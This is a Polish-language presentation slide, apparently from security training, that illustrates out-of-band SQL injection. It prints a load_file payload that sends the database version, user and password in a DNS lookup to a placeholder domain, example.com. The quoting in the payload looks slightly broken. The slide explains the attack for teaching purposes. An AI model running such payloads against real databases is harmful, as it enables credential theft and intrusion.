

# Przykład
Załóżmy, że atakujący jest w stanie wykonać następujące zapytanie SQL w docelowej bazie danych:

SELECT load_file(CONCAT('\\\\',(SELECT+@@version),'.',(SELECT+user),'.', (SELECT+password),'.',example.com\\test.txt'))

To spowoduje, że aplikacja wyśle żądanie DNS do domeny database_version.database_user.database_password.example.com, ujawniając wrażliwe dane (wersję bazy danych, nazwę użytkownika oraz hasło użytkownika) atakującemu.